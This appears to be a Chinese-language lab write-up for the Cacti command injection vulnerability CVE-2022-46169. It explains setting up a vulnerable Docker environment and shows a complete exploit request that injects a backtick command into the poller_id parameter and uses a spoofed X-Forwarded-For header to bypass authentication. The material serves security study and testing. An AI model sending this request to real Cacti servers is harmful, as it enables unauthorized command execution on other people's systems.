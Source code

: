 # Cacti 前台命令注入漏洞（CVE-2022-46169）

Cacti是一个服务器监控与管理平台。在其1.2.17-1.2.22版本中存在一处命令注入漏洞，攻击者可以通过X-Forwarded-For请求头绕过服务端校验并在其中执行任意命令。

参考链接：

- <https://github.com/Cacti/cacti/security/advisories/GHSA-6p93-p743-35gf>
- <https://mp.weixin.qq.com/s/6crwl8ggMkiHdeTtTApv3A>

## 漏洞环境

执行如下命令启动一个Cacti 1.2.22版本服务器：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8080`会跳转到登录页面。使用admin/admin作为账号密码登录，并根据页面中的提示进行初始化。

实际上初始化的过程就是不断点击“下一步”，直到安装成功：

![](1.png)

这个漏洞的利用需要Cacti应用中至少存在一个类似是`POLLER_ACTION_SCRIPT_PHP`的采集器。所以，我们在Cacti后台首页创建一个新的Graph：

![](2.png)

选择的Graph Type是“Device - Uptime”，点击创建：

![](3.png)

## 漏洞利用

完成上述初始化后，我们切换到攻击者的角色。作为攻击者，发送如下数据包：

```
GET /remote_agent.php?action=polldata&local_data_ids[0]=6&host_id=1&poller_id=`touch+/tmp/success` HTTP/1.1
X-Forwarded-For: 127.0.0.1
Host: localhost.lan
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1


```

![](4.png)

虽然响应包里没有回显，但是进入容器中即可发现`/tmp/success`已成功被创建：

![](5.png)
